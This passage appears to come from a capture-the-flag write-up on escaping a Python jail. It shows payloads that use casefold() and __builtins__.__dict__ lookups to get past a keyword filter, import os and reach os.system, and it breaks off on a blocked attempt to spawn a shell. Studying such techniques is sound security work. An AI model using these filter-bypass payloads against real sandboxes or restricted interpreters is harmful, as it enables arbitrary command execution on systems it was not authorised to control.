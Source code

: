 Looking for alternatives to the `lower` method, we find the `casefold` method, which serves a similar purpose. As we can see, this method is not filtered and works.

```console
>> print(__builtins__.__dict__['__IMPORT__'.casefold()])
<built-in function __import__>
```

Returning to our payload, we find that when we attempt to import the `os` module, it is also not allowed, and we can see the reason why: `os` is filtered as well.

```console
>> __builtins__.__dict__['__IMPORT__'.casefold()]('os')
Illegal Input
>> os
Illegal Input
```

Since `os` is already supplied as a string and `OS` is not filtered, we can use the `casefold` method once more to bypass it.

As we can see, this works, and we are able to access the `os` module.

```console
>> print(__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()))
<module 'os' from '/usr/lib/python3.9/os.py'>
```

However, if we try to access the `system` function, we find that we fail once more.

```console
>> __builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).system
Illegal Input
```

This time, it's because `system` is filtered.

```console
>> system
Illegal Input
```

Now, we can use `__dict__` once more to be able to use `system` as a string and apply the `casefold` method to bypass the filter. 

As we can see, this allows us to access the `system` function successfully.

```console
>> print(__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()])
<built-in function system>
```

Now that we can access the `os.system` function and call it, we should look for ways to obtain a shell.

If we try to directly spawn a shell or use any other program that could help us spawn a shell, we find that most of them are not allowed.

```console
>> __builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()]('sh')
Illegal Input
```
